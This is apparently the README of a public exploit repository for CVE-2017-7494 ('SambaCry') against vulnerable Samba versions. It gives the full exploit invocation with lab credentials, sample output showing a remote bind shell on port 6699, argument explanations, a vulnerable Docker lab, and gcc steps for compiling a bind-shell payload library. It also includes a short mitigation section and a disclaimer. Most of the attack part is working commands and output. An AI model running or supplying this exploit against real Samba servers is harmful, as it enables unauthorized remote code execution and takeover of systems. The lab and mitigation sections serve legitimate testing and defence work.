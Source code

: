 # SambaCry RCE exploit for Samba 4.5.9

       you will need to download the file libbindshell-samba.so at the github repository here

       https://github.com/opsxcq/exploit-CVE-2017-7494

       This github repository contains the solution and handout material for this test deployment


[![Docker Pulls](https://img.shields.io/docker/pulls/vulnerables/cve-2017-7494.svg?style=plastic)](https://hub.docker.com/r/vulnerables/cve-2017-7494/)
![License](https://img.shields.io/badge/License-GPL-blue.svg?style=plastic)

Samba is a free software re-implementation of the SMB/CIFS networking protocol. Samba provides file and print services for various Microsoft Windows clients and can integrate with a Microsoft Windows Server domain, either as a Domain Controller (DC) or as a domain member. As of version 4, it supports Active Directory and Microsoft Windows NT domains.

Samba in **4.5.9** version and before that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017-7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 does not restrict the file path when using Windows named pipes, which allows remote authenticated users to upload a shared library to a writable shared folder, and execute arbitrary code via a crafted named pipe.



### Exploit

![sambacry](sambacry.gif)

To properly run this exploit you will need a patched version of `impacket` python library and the other dependencies in requirements file. To install all of them, please run

```
pip install -r requirements.txt
```

If you run Python3, you need to run this software in a virtual environment. Please follow the steps:

```
pip install virtualenv
virtualenv -p /usr/bin/python2.7 venv # or wherever your python2.7 resides
source venv/bin/activate.sh
```

After that you can run it as the following:

```
./exploit.py -t <target> -e libbindshell-samba.so \
             -s <share> -r <location>/libbindshell-samba.so \
             -u <user> -p <password> -P 6699
```

For example, if you want to exploit the vulnerable environment with within this repository, run

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
```

And you will get the following output

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>
```

Exploit's arguments explained:

```
usage: exploit.py [-h] -t TARGET -e EXECUTABLE -s REMOTESHARE -r REMOTEPATH
                  [-u USER] [-p PASSWORD] [-P REMOTESHELLPORT]
```

* `-t` or `—target` - Set the remote host to attack.
* `-e` or `—executable` - Set the path on your **local system** where the lib that you want to load is located.
* `-s` or `—remoteshare` - Remote share where the file will be copied.
* `-r` or `—remotepath` - Where the file is located on the **remote system**.
* `-u` or `—user` - Username to log in with.
* `-p` or `—password` - Password to use to log in with.
* `-P` or `—remoteshellport` - If you are using a bind shell payload, connect to the payload after the attack is executed.

### Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have docker installed, just run

```
docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
       vulnerables/cve-2017-7494
```

If you want to access, use the following credentials.

* User: `sambacry`
* Password: `nosambanocry`



### Alternative payloads

You can find one example of binding shell payload for this exploit in `bindshell-samba.c` file. Change it as you may find necessary. After that to generate a new binary, use:

```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```

### Afftected software

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4

### Mitigation

Add the parameter:

```
nt pipe support = no
```

to the `[global]` section of your smb.conf and restart smbd. This prevents clients from accessing any named pipe endpoints. Note this can disable some expected functionality for Windows clients.

Also consider mounting the filesystem which is used by samba for its writable share using `noexec` option.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
